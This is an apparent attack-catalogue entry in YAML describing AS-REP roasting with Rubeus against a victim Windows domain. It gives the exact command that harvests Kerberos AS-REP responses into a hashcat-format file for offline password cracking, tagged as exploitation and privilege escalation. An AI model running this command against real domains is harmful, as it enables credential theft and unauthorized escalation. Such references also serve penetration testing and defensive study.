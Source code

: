 ```yaml
---
title: |
  Harvest the non-preauth AS_REP responses for a given list of usernames
description: |
  Rubeus' `asreproast` module will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline. The following command is run on a Windows machine in the victim domain.

  Command Reference:

  	Output File: hashes.txt

command: |
  Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
items:
  - Shell
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asreproast
---
```

